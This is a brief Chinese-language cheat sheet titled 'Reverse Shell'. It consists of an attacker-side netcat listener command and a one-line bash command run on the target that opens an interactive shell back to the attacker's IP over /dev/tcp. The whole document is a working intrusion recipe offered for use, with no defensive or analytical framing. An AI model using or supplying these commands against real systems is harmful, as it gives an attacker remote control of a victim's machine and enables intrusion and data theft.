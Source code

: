 # 反弹Shell

+ 攻击机首先监听端口

```sh
#ip - > 192.168.43.232
nc -lnvp 8888
```



+ 靶机命令执行

```terminal
bash -i >& /dev/tcp/192.168.43.232/8888 0>&1
```

